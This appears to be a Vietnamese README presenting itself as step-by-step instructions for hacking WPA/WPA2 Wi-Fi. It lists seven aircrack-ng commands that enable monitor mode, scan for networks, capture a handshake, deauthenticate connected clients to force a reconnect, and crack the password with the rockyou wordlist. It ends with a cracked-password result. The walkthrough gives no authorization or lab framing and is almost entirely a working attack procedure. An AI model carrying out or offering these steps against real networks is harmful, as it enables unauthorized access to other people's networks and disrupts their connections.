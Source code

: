 ## 🛠️ Các bước thực hiện hack Wi-Fi (WPA/WPA2)

```bash
1. iwconfig
```

→ Kiểm tra các thiết bị kết nối mạng không dây.

```bash
2. sudo airmon-ng start wlan0
```

→ Bật chế độ monitor cho card mạng.

```bash
3. sudo airmon-ng check kill
```

→ Dừng các dịch vụ gây xung đột.

```bash
4. sudo airodump-ng wlan0mon
```

→ Quét và thu thập thông tin mạng Wi-Fi.
**Ctrl + C** để thoát.

```bash
5. sudo airodump-ng --bssid <bssid> --channel <ch> --write wpa2hack wlan0mon
```

→ Bắt handshake WPA/WPA2 từ một Wi-Fi và lưu vào file `wpa2hack.cap`.

```bash
6. sudo aireplay-ng --deauth 4 -a <bssid> -c <station> wlan0mon
```

→ Gửi gói `deauth` để ngắt kết nối thiết bị khỏi Wi-Fi.
Mục đích: ép thiết bị kết nối lại để bết handshake.

```bash
7. sudo aircrack-ng <file.cap> -w /usr/share/wordlists/rockyou.txt
```

→ Dò mật khẩu Wi-Fi bằng file từ điển `rockyou.txt`.

---

### ✅ Kết quả:

```
Sanh Dieu [ 00001111 ]
```
